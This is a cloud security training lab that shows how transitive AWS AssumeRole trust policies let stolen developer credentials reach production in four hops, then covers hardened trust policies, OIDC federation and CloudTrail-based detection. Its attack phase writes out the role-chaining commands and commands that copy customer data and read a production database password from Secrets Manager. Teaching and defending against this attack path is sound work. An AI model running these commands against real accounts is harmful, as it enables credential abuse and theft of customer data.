

# Lab 9.4: IAM Chain Abuse

<div class="lab-meta">
  <span>Phase 1 ~10 min | Phase 2 ~15 min | Phase 3 ~15 min | Phase 4 ~5 min</span>
  <span class="difficulty advanced">Advanced</span>
  <span>Prerequisites: <a href="../../tier-2/2.4-secret-exfiltration/">Lab 2.4</a></span>
</div>

Cloud IAM is itself a supply chain. Dev trusts CI, CI trusts Staging, Staging trusts Production. Each link is an `AssumeRole` policy. No individual link is wrong, but the transitive chain creates an attack path: compromise one developer's credentials, traverse four trust boundaries, reach production. 8 minutes, no alerts.

---

### Attack Flow



---

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. IAM as a Supply Chain"

    **Goal:** Map the trust chain across four AWS accounts.

### The trust chain

```
Dev Account (111111111111)
  └── dev-deploy can AssumeRole → CI Account ci-runner

CI Account (222222222222)
  └── ci-runner can AssumeRole → Staging Account staging-deploy

Staging Account (333333333333)
  └── staging-deploy can AssumeRole → Production Account prod-deploy

Production Account (444444444444)
  └── prod-deploy has access to customer data, databases, secrets
```

### Trust policy analysis

```bash
cat trust-policies/dev-account-role.json
cat trust-policies/ci-account-role.json
cat trust-policies/staging-account-role.json
cat trust-policies/prod-account-role.json
```

Every trust policy has the same problem:

| Property | Value |
|----------|-------|
| Principal | Account root (not a specific role) |
| Conditions | None |
| ExternalId | Missing |
| Source IP restriction | Missing |
| Session duration cap | Missing |

Each policy says: "I trust anyone in account X to assume this role, at any time, from any IP."

### The "confused deputy" amplification

The CI Account trust policy uses `arn:aws:iam::111111111111:root`, meaning ANY entity in the dev account can assume `ci-runner`. Not just `dev-deploy`, but also any Lambda, any EC2 instance profile, any other role.

---

???+ warning "Phase 2: BREAK. Traversing the Trust Chain"

    **Goal:** Starting from a compromised dev dependency, traverse the full chain to production.

### Initial compromise

A malicious npm package (typosquat) reads `~/.aws/credentials` and environment variables, exfiltrates them. The attacker now has `dev-deploy` credentials.

### Hop 1: Dev to CI

```bash
aws sts assume-role \
    --role-arn arn:aws:iam::222222222222:role/ci-runner \
    --role-session-name "developer-alice-ci-trigger" \
    --duration-seconds 43200
```

Succeeds: no ExternalId, no source IP restriction, no MFA, max 12-hour session.

### Hop 2: CI to Staging

```bash
aws sts assume-role \
    --role-arn arn:aws:iam::333333333333:role/staging-deploy \
    --role-session-name "ci-staging-deploy-manual"
```

No CodeBuild job ran. No tests passed. The attacker called AssumeRole directly.

### Hop 3: Staging to Production

```bash
aws sts assume-role \
    --role-arn arn:aws:iam::444444444444:role/prod-deploy \
    --role-session-name "staging-prod-promote"
```

### Exfiltrate production data

```bash
aws s3 cp s3://customer-data-444444444444/exports/customers-full-2026.csv /tmp/
aws secretsmanager get-secret-value --secret-id prod/database/master-password
```

**Total time: 8 minutes.** No individual trust policy was "wrong."

### CloudTrail comparison

| Property | Legitimate | Malicious |
|----------|-----------|-----------|
| Time of day | 09:15 UTC (business hours) | 02:14 UTC |
| Source IP | 203.0.113.50 (office) | 198.51.100.77 (unknown) |
| Session duration | 3600s (1 hour) | 43200s (12 hours) |
| Time between hops | 7 minutes (build ran) | 28 seconds (no build) |
| Subsequent actions | `codebuild:StartBuild` | `s3:GetObject` on customer data |

---

???+ success "Checkpoint"
    You should have traced the full 4-hop chain and understand why each hop succeeded. The key insight: the chain mirrors the legitimate deployment lifecycle, but the attacker walked it manually in 8 minutes instead of waiting for CI/CD.

---

???+ success "Phase 3: DEFEND. Breaking the Chain"

    **Goal:** Add conditions, implement OIDC, apply zero-trust.

### Fix 1: External ID conditions

```json
{
  "Effect": "Allow",
  "Principal": {"AWS": "arn:aws:iam::222222222222:role/ci-runner"},
  "Action": "sts:AssumeRole",
  "Condition": {
    "StringEquals": {"sts:ExternalId": "ci-to-staging-7f3a9b2c-4e1d-48a7-b6f5"}
  }
}
```

Principal is a specific role ARN (not account root). ExternalId is a shared secret.

### Fix 2: Source IP and time-of-day conditions

```json
{
  "Condition": {
    "IpAddress": {"aws:SourceIp": ["10.200.0.0/16"]},
    "DateGreaterThan": {"aws:CurrentTime": "2026-01-01T06:00:00Z"},
    "DateLessThan": {"aws:CurrentTime": "2026-01-01T22:00:00Z"}
  }
}
```

### Fix 3: OIDC federation (eliminates the chain)

```json
{
  "Principal": {"Federated": "arn:aws:iam::333333333333:oidc-provider/token.actions.githubusercontent.com"},
  "Action": "sts:AssumeRoleWithWebIdentity",
  "Condition": {
    "StringLike": {"token.actions.githubusercontent.com:sub": "repo:myorg/myrepo:ref:refs/heads/main"}
  }
}
```

No long-lived credentials, scoped to repository and branch, short-lived JWT tokens, no transitive chain.

### Fix 4: Hardened trust policy template

For each hop: specific role ARN principal, ExternalId, source IP, session duration cap (1 hour), session tags.

### Final verification

```bash
weaklink verify 9.4
```

---

??? danger "Phase 4: DETECT. Monitoring IAM Trust Chains"

    **Goal:** Detect chain abuse via timing, source IP, and action pattern anomalies.

**Key insight:** Legitimate traversals follow a predictable pattern. Malicious traversals deviate in timing (seconds vs. minutes between hops), source IP, session duration, and subsequent actions.

Alert on: rapid cross-account AssumeRole chains (<2 min between hops), unexpected source IPs, maximum session duration requests, data access actions from deployment roles.

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| Valid Accounts: Cloud Accounts | [T1078.004](https://attack.mitre.org/techniques/T1078/004/) | Stolen cloud credentials initiate chain |
| Use Alternate Authentication Material | [T1550.001](https://attack.mitre.org/techniques/T1550/001/) | STS tokens chained via AssumeRole |
| Supply Chain Compromise: Software Supply Chain | [T1195.002](https://attack.mitre.org/techniques/T1195/002/) | Initial access via malicious npm package |

---

## What You Learned

- Cloud IAM is a supply chain. Trust relationships form transitive chains enabling traversal from low-privilege to high-privilege accounts.
- The attack is fast: 8 minutes from dev credential theft to production data exfiltration with no alerts in default configuration.
- OIDC federation eliminates the chain entirely. No long-lived credentials means no transitive chain to traverse.

## Further Reading

- [AWS: Cross-Account Access Best Practices](https://docs.aws.amazon.com/IAM/latest/UserGuide/tutorial_cross-account-with-roles.html)
- [AWS: How to Use External ID](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_create_for-user_externalid.html)
- [Rhino Security Labs: AWS IAM Privilege Escalation](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
